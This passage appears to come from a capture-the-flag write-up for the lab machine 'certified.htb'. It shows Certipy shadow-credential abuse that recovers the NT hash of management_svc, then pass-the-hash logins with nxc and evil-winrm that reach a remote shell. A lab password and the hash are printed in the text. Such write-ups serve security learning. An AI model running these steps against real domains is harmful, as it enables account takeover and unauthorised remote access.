 ```bash
certipy shadow auto -account management_svc -u 'judith.mader@certified.htb' -p 'judith09' -dc-ip 10.10.11.41

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '953ca321-366f-5cca-40f3-e920effdfce7'
[*] Adding Key Credential with device ID '953ca321-366f-5cca-40f3-e920effdfce7' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID '953ca321-366f-5cca-40f3-e920effdfce7' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': a091c1832bcdd4677c28b5a6a1295584
```

We got the nt hash of user `management_svc`, let's see if we can authenticate with it.

```bash
nxc winrm certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584     

WINRM       10.10.11.41     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
WINRM       10.10.11.41     5985   DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 (Pwn3d!)
```

It worked and we can login via winrm for a shell

```bash
evil-winrm -i certified.htb -u management_svc -H 'a091c1832bcdd4677c28b5a6a1295584'
                                         
Evil-WinRM shell v3.5
                                         
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                         
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                         
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\management_svc\Documents>
```
